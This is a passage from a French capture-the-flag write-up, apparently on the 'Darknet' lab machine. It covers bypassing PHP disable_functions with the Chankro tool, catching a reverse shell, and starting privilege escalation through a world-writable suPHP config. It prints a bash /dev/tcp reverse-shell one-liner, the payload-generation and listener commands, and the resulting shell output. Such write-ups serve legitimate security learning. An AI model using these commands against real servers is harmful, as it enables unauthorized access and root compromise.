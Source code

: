 La quête donatoire transcendantale
----------------------------------

C'est bien beau d'exécuter du code PHP mais ça ne vaut pas un vrai shell. Il doit bien exister une technique consistant à uploader une librairie et la charger par PHP pour exécuter du code natif !  

Mais oui ! Grâce à frère *TarlogicSecurity* ouvre tes [Chankro](https://github.com/TarlogicSecurity/Chankro) et toi aussi bypasse *disable\_functions* et *open\_basedir* 8-)  

Pour l'utiliser j'ai d'abord écrit le script shell suivant :  

```bash
#!/bin/bash
bash -i >& /dev/tcp/192.168.2.240/9999 0>&1
```

Puis on appelle *Chankro* de cette façon pour générer le fichier *bypass.php* :  

```bash
python chankro.py --arch 32 --input rev.sh --output bypass.php --path /home/errorlevel/public_html/xpanel/upload
```

On lance préalablement un listener sur notre machine :  

```bash
socat file:`tty`,echo=0,raw tcp4-listen:9999
```

Il faut bien sûr réinjecter ce fichier dans le script d'upload vu plus tôt et finalement lors du chargement du htaccess :  

```plain
errorlevel@Darknet:/home/errorlevel/public_html/xpanel/uploads$ id
id
uid=1002(errorlevel) gid=1002(errorlevel) groups=1002(errorlevel)
```

Quand on recherche les fichiers appartenant à root mais word-writable on trouve celui-ci :  

```plain
-rwxrwxrwx 1 root root 869 Apr 26  2015 /etc/suphp/suphp.conf
```

Il dispose des entrées suivantes :  

```plain
; Minimum UID
min_uid=100

; Minimum GID
min_gid=100
```

L'objectif va être de passer ces valeurs à 0 (uid de root) pour exploiter le fichier *sec.php* appartement à root (et donc faire exécuter du code privilégié grâce à suPHP).  

On serait tenté de faire un remplacement *in-place* avec *sed -i s/100/0/ /etc/suphp/suphp.conf* sauf que sed tente d'écrire un fichier temporaire dans */etc/suphp* et les permissions nous en empêchent :'(  

